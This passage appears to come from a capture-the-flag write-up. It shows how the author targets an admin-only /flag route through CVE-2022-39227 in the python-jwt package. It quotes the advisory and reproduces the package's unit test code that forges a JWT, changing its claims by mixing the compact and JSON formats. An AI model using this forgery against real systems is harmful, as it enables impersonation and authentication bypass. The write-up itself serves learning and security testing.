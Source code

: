 Finally, we confirm that the `/flag` route is only accessible using the `administrator` role.

{% code overflow="wrap" %}
```python
@api_blueprint.route('/flag', methods=['GET'])
@authorize_roles(['administrator'])
def flag():
    return jsonify({'message': current_app.config.get('FLAG')}), 200
```
{% endcode %}

I decided to look for any recent vulnerabilities in the [python-jwt](https://pypi.org/project/python-jwt/) package.

> **Note:** Versions 3.3.4 and later fix a [vulnerability](https://github.com/davedoesdev/python-jwt/security/advisories/GHSA-5p8v-58qm-c7fp) (CVE-2022-39227) in JSON Web Token verification which lets an attacker with a valid token re-use its signature with modified claims. CVE to follow. Please upgrade!

You don't say? That's exactly what we'd like to do! 😼

Let's check the [CVE-2022-39227 advisory](https://github.com/davedoesdev/python-jwt/security/advisories/GHSA-5p8v-58qm-c7fp)

> An attacker who obtains a JWT can **arbitrarily forge its contents without knowing the secret key**. Depending on the application, this may for example enable the attacker to spoof other user's identities, hijack their sessions, or bypass authentication.

It doesn't explain _how_ to forge a JWT but there are some accompanying [unit tests](https://github.com/davedoesdev/python-jwt/blob/master/test/vulnerability_vows.py)

{% code overflow="wrap" %}
```python
""" Test claim forgery vulnerability fix """
from datetime import timedelta
from json import loads, dumps
from test.common import generated_keys
from test import python_jwt as jwt
from pyvows import Vows, expect
from jwcrypto.common import base64url_decode, base64url_encode

@Vows.batch
class ForgedClaims(Vows.Context):
    """ Check we get an error when payload is forged using mix of compact and JSON formats """
    def topic(self):
        """ Generate token """
        payload = {'sub': 'alice'}
        return jwt.generate_jwt(payload, generated_keys['PS256'], 'PS256', timedelta(minutes=60))

    class PolyglotToken(Vows.Context):
        """ Make a forged token """
        def topic(self, topic):
            """ Use mix of JSON and compact format to insert forged claims including long expiration """
            [header, payload, signature] = topic.split('.')
            parsed_payload = loads(base64url_decode(payload))
            parsed_payload['sub'] = 'bob'
            parsed_payload['exp'] = 2000000000
            fake_payload = base64url_encode((dumps(parsed_payload, separators=(',', ':'))))
            return '{"  ' + header + '.' + fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'

        class Verify(Vows.Context):
            """ Check the forged token fails to verify """
            @Vows.capture_error
            def topic(self, topic):
                """ Verify the forged token """
                return jwt.verify_jwt(topic, generated_keys['PS256'], ['PS256'])
```